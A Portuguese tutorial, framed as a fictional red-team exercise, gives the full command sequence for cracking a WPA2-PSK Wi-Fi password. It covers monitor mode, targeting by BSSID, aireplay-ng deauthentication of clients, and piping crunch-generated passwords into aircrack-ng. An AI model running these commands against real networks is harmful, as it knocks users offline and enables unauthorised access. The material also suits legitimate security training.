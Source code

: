 Operação de Red Team real, onde você utilizaria `aircrack-ng` para capturar pacotes e recuperar a handshake de uma rede Wi-Fi, e em seguida, usaria `crunch` para gerar uma lista de senhas que seria alimentada diretamente no `aircrack-ng` para tentar quebrar a senha da rede.

### Operação de Red Team: Exemplo Fictício

#### Cenário

Você é membro de uma equipe de Red Team contratada para testar a segurança de uma empresa. Uma das tarefas é avaliar a segurança da rede Wi-Fi da empresa, identificada como `Empresa_WIFI`. A rede utiliza WPA2-PSK (Pre-Shared Key) para autenticação.

#### Passo 1: Preparação do Ambiente

1. **Habilitar Modo Monitor na Interface de Rede**

```bash
sudo airmon-ng start wlan0
```
Este comando ativa o modo monitor na interface `wlan0`, permitindo que você capture pacotes sem estar conectado à rede.

2. **Capturar Pacotes da Rede Alvo**

```bash
sudo airodump-ng wlan0mon
```
Identifique o BSSID (endereço MAC) e o canal da rede `Empresa_WIFI`. Suponha que o BSSID seja `00:11:22:33:44:55` e o canal seja `6`.

3. **Focar na Rede Alvo e Capturar Handshake**

```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 6 --write captura Empresa_WIFI wlan0mon
```
Isso captura pacotes da rede `Empresa_WIFI` e salva em um arquivo chamado `captura`.

4. **Forçar a Reautenticação de Clientes (Opcional)**

Para capturar a handshake mais rapidamente, force a desautenticação de um cliente conectado:

```bash
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```
Substitua `AA:BB:CC:DD:EE:FF` pelo endereço MAC de um cliente conectado. Isso envia 10 pacotes de desautenticação, forçando o cliente a se reconectar, momento em que a handshake será capturada.

#### Passo 2: Quebrar a Senha Usando Aircrack-ng e Crunch

1. **Verificar se a Handshake foi Capturada**

Após a captura, verifique se a handshake foi capturada corretamente:

```bash
aircrack-ng captura-01.cap
```
Você deve ver uma mensagem indicando que a handshake foi encontrada.

2. **Gerar e Quebrar Senhas com Crunch e Aircrack-ng**

Use o `crunch` para gerar senhas e passe-as diretamente para o `aircrack-ng` usando pipes (`|`):

```bash
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 | aircrack-ng -w - -b 00:11:22:33:44:55 captura-01.cap
```
Neste comando:
- `crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789` gera todas as combinações possíveis de senhas com 8 caracteres usando letras minúsculas e dígitos.
- O pipe `|` redireciona a saída de `crunch` diretamente para o `aircrack-ng`.
- `-w -` indica que `aircrack-ng` deve ler a lista de senhas da entrada padrão (stdin).
- `-b 00:11:22:33:44:55` especifica o BSSID da rede alvo.
- `captura-01.cap` é o arquivo de captura que contém a handshake.

### Resumo da Operação

1. **Preparação**: Habilitar modo monitor e capturar pacotes.
2. **Foco na Rede Alvo**: Usar `airodump-ng` para focar na rede alvo e capturar a handshake.
3. **Forçar Reautenticação (Opcional)**: Usar `aireplay-ng` para desautenticar clientes e capturar a handshake.
4. **Quebrar a Senha**: Usar `crunch` para gerar senhas e passar para `aircrack-ng` para tentar quebrar a senha WPA2-PSK.

Esta operação combina a captura de pacotes e a quebra de senha usando ferramentas especializadas de segurança, demonstrando um exemplo de como uma equipe de Red Team pode testar a segurança de uma rede Wi-Fi.
